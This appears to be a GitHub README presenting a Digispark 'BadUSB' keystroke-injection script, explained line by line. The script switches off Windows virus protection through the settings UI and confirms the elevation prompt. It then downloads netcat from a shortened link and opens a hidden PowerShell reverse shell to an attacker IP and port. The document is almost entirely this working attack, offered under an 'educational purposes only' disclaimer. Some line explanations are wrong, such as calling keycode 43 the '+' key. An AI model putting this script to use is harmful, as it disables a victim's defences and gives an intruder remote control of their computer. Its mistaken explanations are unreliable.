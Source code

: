 This script uses the DigiKeyboard library to automate keystrokes and input text. Here is a breakdown of each line of code:

#include "DigiKeyboard.h"   This line includes the DigiKeyboard library.

void setup() {          This line starts the setup function.

DigiKeyboard.delay(1000);       This line pauses the script for 1 second.

DigiKeyboard.sendKeyStroke(KEY_S,MOD_GUI_LEFT);  This line sends a key press for the S key with the left GUI (Windows) key modifier.

DigiKeyboard.delay(1000);  This line pauses the script for 1 second.

DigiKeyboard.print("virus & threat protection");   This line inputs the text "virus & threat protection".

DigiKeyboard.delay(500);   This line pauses the script for 0.5 seconds.

DigiKeyboard.sendKeyStroke(KEY_ENTER);    This line sends a key press for the Enter key.

DigiKeyboard.delay(5000);    This line pauses the script for 5 seconds.

DigiKeyboard.sendKeyStroke(43);
DigiKeyboard.sendKeyStroke(43);    These four lines send key presses for the + key four times, which opens the settings menu in Windows 10.
DigiKeyboard.sendKeyStroke(43);
DigiKeyboard.sendKeyStroke(43);

DigiKeyboard.delay(700);   This line pauses the script for 0.7 seconds.

DigiKeyboard.sendKeyStroke(KEY_ENTER);  This line sends a key press for the Enter key.

DigiKeyboard.delay(700);   This line pauses the script for 0.7 seconds.

DigiKeyboard.sendKeyStroke(KEY_SPACE);   This line sends a key press for the Space key.

DigiKeyboard.delay(2000);    This line pauses the script for 2 seconds.

DigiKeyboard.sendKeyStroke(KEY_Y,MOD_ALT_LEFT);   This line sends a key press for the Y key with the left Alt key modifier.

DigiKeyboard.delay(1000);   This line pauses the script for 1 second.

DigiKeyboard.sendKeyStroke(KEY_F4 , MOD_ALT_LEFT);  This line sends a key press for the F4 key with the left Alt key modifier, which closes the current window.

DigiKeyboard.delay(500);     This line pauses the script for 0.5 seconds.

DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT);   This line sends a key press for the R key with the left GUI (Windows) key modifier, which opens the Run dialog box.

DigiKeyboard.delay(700);  This line pauses the script for 0.7 seconds.

DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");  This line inputs a PowerShell command that downloads and executes the netcat.exe tool, which can be used for remote command execution.


DigiKeyboard.sendKeyStroke(KEY_ENTER);  This line sends a key press for the Enter key, which executes the PowerShell command.
 
void loop() {} This line starts the loop function, which is empty in this script. The loop function is not used in this script.
 


# Warning 
Everything in this repository is intended for educational purposes only. I am not responsible for any wrong behavior on your part. You are responsible for your actions using the script.
 

 



 

 






 





 































